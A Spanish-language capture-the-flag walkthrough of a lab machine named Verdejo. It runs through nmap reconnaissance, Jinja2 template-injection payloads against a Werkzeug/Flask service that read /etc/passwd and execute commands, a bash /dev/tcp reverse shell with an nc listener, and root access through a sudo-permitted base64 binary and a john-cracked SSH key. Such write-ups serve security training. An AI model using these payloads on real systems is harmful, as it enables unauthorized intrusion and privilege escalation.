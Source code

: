 - Tags: #Verdejo
----
[Maquina Verdejo](https://mega.nz/file/ZasAgTpa#czwKDizDR0-eHGyzP8OG1VCj2od-Xzq0DWbFsTVXFWw) ==> Enlace de descarga al laboratorio
```bash
7z x verdejo.zip
 sudo bash auto_deploy.sh verdejo.tar
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Escaneo Puertos
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos
extractPorts allPorts # Parseamos la informacon mas relevante del primer escaneo
nmap -sC -sV -p22,80,8089 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) )** ==> Tenemos el servicio ssh expuesto.
**( 80/tcp   open  http    Apache httpd 2.4.59 ((Debian)) )** ==> Tenemos un servicio web expuesto.
**( 8089/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2) )** ==> Al parecer tenemos un servicio desplegado con python3

#### Fase Reconcocimiento Web:
```bash
whatweb http://172.17.0.2 # No reporta nada critico
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```

```bash
http://172.17.0.2/ # Empezamos con la enumeracion de directorios, subdirectorios y subdominios.
```

**( http://172.17.0.2:8089 )** ==> ¿Qué es Werkzeug 2.2 2?, Werkzeug es **una biblioteca de aplicaciones web WSGI** . Las versiones afectadas de este paquete son vulnerables a Directory Traversal debido a una omisión de os. path. isabs() , que permite el manejo incorrecto de rutas UNC que comienzan con / , en la función safe_join() . Tenemos un posible vector de ataque. Ya que al parecer esta corriendo por detras **flask**
[PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2) ==> Aqui usamos este recurso para poder inyectar un template como este que nos permite ver el **( /etc/passwd )**
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

#### Ejecutando Codigo:
```bash
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }} # Usamos esta que nos permite ejecutar codigo.
```

#### Fase Intrusion:
```bash
nc -nlvp 443 # Nos ponemos en escucha

 {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "exec bash -i %26>/dev/tcp/192.168.100.22/443 <%261"').read() }}# Ejecutamos el comando.
```

#### Fase Escalada Privilegios:
**Nota** ==> Una ves adentro realizamos tratamiento de la **tty**
```bash
sudo -l

User verde may run the following commands on fb524341ad17:
    (root) NOPASSWD: /usr/bin/base64
```

Podemos aprovecharnos de este binario para poder obtener la clade **id_rsa** del usuario **root** para asi podernos conectar atraves de ssh proporcionando esa cleve para acceder sin contrasena
```bash
ssh -i id_rsa root@localhost # Nos intentamos conectar, pero nos pide una clave 
ssh2john id_rsa > hash # Convertimos a hash la llave 
john hash --wordlist=/usr/share/wordlists/rockyou.txt # Procedemos a crakearlo
honda1           (id_rsa)  # Obtuvimimos este hash
chmod 600 id_rsa # Nota importante tendra que tener los permisos 600 para que funcione
ssh-keygen -R 172.17.0.2 && ssh -i id_rsa root@172.17.0.2 # Una ves que conocemos la clave intentamos conectarnos. y teniendo acceso como root
```
